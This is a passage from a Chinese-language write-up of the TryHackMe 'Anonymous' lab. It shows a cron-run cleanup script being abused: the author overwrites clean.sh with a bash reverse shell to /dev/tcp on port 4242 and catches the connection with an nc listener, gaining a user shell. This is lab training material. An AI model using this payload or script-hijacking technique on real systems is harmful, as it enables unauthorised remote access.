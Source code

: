 ```

# 等两分钟后，下载日志
```
┌──(root💀kali)-[~/tryhackme/Anonymous]
└─# cat removed_files.log  
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Tue Oct 19 07:11:01 UTC 2021
Tue Oct 19 07:12:01 UTC 2021

```

最后两行果然是打印了我们修改的日志信息，而且由时间可以看出定时任务是一分钟执行一次

# shell
编辑```clean.sh```,payload如下
```
#!/bin/bash
bash -i >& /dev/tcp/10.13.21.169/4242 0>&1
```

# 本地开启监听，拿到初始shell
```
┌──(root💀kali)-[~]
└─# nc -lnvp 4242                 
listening on [any] 4242 ...
connect to [10.13.21.169] from (UNKNOWN) [10.10.249.116] 59716
bash: cannot set terminal process group (1283): Inappropriate ioctl for device
bash: no job control in this shell
namelessone@anonymous:~$ id
id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
namelessone@anonymous:~$ whoami
whoami
namelessone
namelessone@anonymous:~$ 
